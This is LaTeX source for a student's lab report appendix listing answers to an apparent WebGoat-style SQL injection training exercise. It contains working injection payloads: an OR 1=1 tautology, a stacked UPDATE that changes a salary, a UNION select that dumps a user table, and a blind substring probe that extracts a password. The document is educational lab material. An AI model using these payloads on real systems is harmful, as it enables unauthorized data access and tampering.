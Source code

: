 \documentclass[
	letterpaper, %
	10pt, %
	unnumberedsections, %
	twoside, %
]{APAAssignment}
\begin{document}
\begin{appendices}
\begin{itemize}
\item (2) \verb $SELECT * from employees where first_name='Bob'$
\item (3) \verb $UPDATE employees SET  department='Sales' WHERE first_name = 'Tobi'$
\item (4) \verb $ALTER TABLE employees ADD phone varchar(20)$
\item (5) \verb $GRANT ALL ON grant_rights TO unauthorized_user$
\item (9) See Figure \ref{fig:InjectionIntro9}
\item \verb $(10) SELECT * From user_data WHERE Login_Count = 0 and userid= true$
\item \verb $(11) Employee Name: ' OR 1 = 1; --  TAN: ' '$
\item \verb $(12) '; UPDATE employees SET salary=99999 WHERE first_name='John$
\item \verb $(13) %
\end{itemize}

\begin{figure} %
	\centering
	\texttt{[image: Pasted image 20240826154614.png]}
	\caption{Sql injection using OR and something resolving to 'true' }
	\label{fig:InjectionIntro9}
\end{figure}


\begin{figure} %
	\centering
	\texttt{[image: Pasted image 20240826162409.png]}
	\caption{Database pawned, revealing salaries}
	\label{fig:SalaryList}
\end{figure}




\begin{figure} %
	\centering
	\texttt{[image: Pasted image 20240826163525.png]}
	\caption{SQL injection (intro) check mark}
	\label{fig:InjectionIntroSolvedCheck}
\end{figure}

\subsection{4.2 SQL Injection (advanced)}

\begin{itemize}
 \item{(3) \verb $a' union select user_system_data. *,NULL,NULL,NULL from user_system_data; --$}
\item{(5) Hint says that table-name is randomized and needs to be retrieved sounds like a blind SQL injection The string `tom' AND substring(password,1,1)='t` gives a "User {0} already exists please try to register with a different username." Response indicating we hit correctly with 1 as the first letter of the password}
\end{itemize}


\end{appendices}
\end{document}

